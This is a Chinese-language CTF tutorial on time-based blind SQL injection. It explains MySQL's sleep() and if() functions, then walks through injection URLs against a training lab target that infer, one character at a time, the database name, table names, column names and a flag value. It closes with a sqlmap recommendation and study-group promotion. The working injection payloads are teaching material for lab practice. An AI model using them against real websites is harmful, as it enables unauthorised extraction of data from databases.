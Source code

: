 # sql注入之sleep注入


## 一、免责声明


该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

## 二、原理


sleep注入又称基于时间的盲注。当网站页面上没有任何显示位，也没有输出sql语句执行错误信息。此时我们可以尝试采用sleep注入。

sleep注入需要注入的一点是，正常sql注入和错误的sql语句返回的页面都一样。但是加入了sleep(5)后页面的返回速度明显慢了五秒。

## 三、靶机地址


>http://39.98.88.18:8080/sql/Less-9/index.php?id=1

## 四、函数介绍


1.sleep()函数

sleep()函数可以让函数停留n秒时间，然后返回０。如果程序被打断,则返回1。

在一般情况下，sleep()函数的返回值恒为０，因此我们便可以利用sleep(n)=0的永真性来执行sql注入。

![](img/2.8/1.png )

执行上述语句的时候，会有一个时间的停顿。希望大家自己尝试一下。

2.if函数

if函数的表达式如下：

>if(表达式1,表达式2,表达式3)

如果表达式１是true，则返回表达式２；否则返回表达式３。

## 五、实战


因为此关注入成功的判断都是延迟五秒返回界面。故在此不在截图。

1.判断注入类型以及闭合方式

我们按照以前的方法在后面添加单引号，and 1=1等因此尝试，发现页面无变化。因此我们尝试如下链接

>http://39.98.88.18:8080/sql/Less-9/?id=1' and if(1=0,1, sleep(10)) --+

此时发现过了将近10s后页面正常返回。单引号闭合成功。

2.猜数据库

首先我们来判断一下数据库的长度

>http://39.98.88.18:8080/sql/Less-9/?id=1' and if(length(database())=8,sleep(10),1)--+

我们可以发现，当length(database())为其他致时，页面会立刻返回。因为此时length(database())值为假，if函数返回1。所以页面会可以返回。

接下来我们继续猜测数据库名称

>http://39.98.88.18:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),1,1))=115,sleep(10),1)--+

此时，网站延时成功，根据我们上节课中给出的ascii码表。我们可以查出115对应的单词为s。

由于sleep注入sql语句错误时，不会有错误页面。即我们也无法使用二分法进行判断。因此我们需要逐位逐位的去常识。所以手工测试比较繁琐。

subsrt函数第二位表示截取位数，我们可以通过修改它的值，来判断后面的位置链接如下：

>http://39.98.88.18:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),2,1))=100,sleep(10),1)--+

然后依次判断其他位数，再次不在详细叙述。

3.判断表名

首先我们来判断一下seucrity各个数据表的长度。

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select table_name from information_schema.tables where table_schema='security' limit 1,1))=5,sleep(10),1)--+

然后依次判断表名称中的每个字符

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1))=117,sleep(10),1)--+

通过上面的判断我们可以的得出存在flag这个表。

４.判段flag表中的列。

判断flag表中列的长度

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1))=４,sleep(10),1)--+

可以判断长度为４位，然后判断列名

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1),1,1))=117,sleep(10),1)--+

然后通过substr和limit参数来修改剩余各位。

5.判断内容

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select flag from security.flag limit 0,1))=4,sleep(10),1)--+

## 六、sqlmap


因sql布尔型注入需要对猜解的字符进行逐个尝试，过程相对繁琐。故本人还是推荐使用sqlmap.

关于sqlmap使用，本节课程跟上节课程相同。故在此不做叙述。

## 七、赛题实战


如有问题，可以随时在知识星球内＠江江河畔砍柴人

赛题地址: https://t.zsxq.com/6AUzBaY

## 八、小结


CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/2.8/00.jpeg )

及时获取更多消息，请关注微信订阅号

![](img/2.8/0.jpg )
